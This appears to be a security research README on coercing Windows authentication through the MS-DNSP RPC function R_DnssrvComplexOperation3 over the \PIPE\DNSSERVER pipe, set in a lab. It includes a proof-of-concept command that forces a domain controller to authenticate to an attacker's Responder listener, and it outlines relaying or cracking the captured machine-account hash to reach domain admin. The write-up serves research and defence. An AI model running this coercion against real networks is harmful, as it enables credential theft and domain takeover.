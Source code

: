# MS-DNSP - Remote call to R_DnssrvComplexOperation3 (opnum 14)

## Summary

 - **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

 - **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\DNSSERVER`

 - **Function name**: [`R_DnssrvComplexOperation3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/4edb00e2-9dee-4e26-9584-8933f3299ebe)

 - **Function operation number**: `14`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvComplexOperation3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/4edb00e2-9dee-4e26-9584-8933f3299ebe) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvComplexOperation3('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvComplexOperation3(
     [in]                                DWORD                   dwClientVersion,
     [in]                                DWORD                   dwSettingFlags,
     [in, unique, string]                LPCWSTR                 pwszServerName,
     [in, unique, string]                LPCWSTR                 pwszVirtualizationInstanceID,
     [in, unique, string]                LPCSTR                  pszZone,
     [in, unique, string]                LPCSTR                  pszOperation,
     [in]                                DWORD                   dwTypeIn,
     [in, switch_is(dwTypeIn)]           DNSSRV_RPC_UNION        pDataIn,
     [out]                               PDWORD                  pdwTypeOut,
     [out, switch_is(*pdwTypeOut)]       DNSSRV_RPC_UNION *      ppDataOut
     );
```

## References

 - Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

 - Documentation of function `R_DnssrvComplexOperation3`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/4edb00e2-9dee-4e26-9584-8933f3299ebe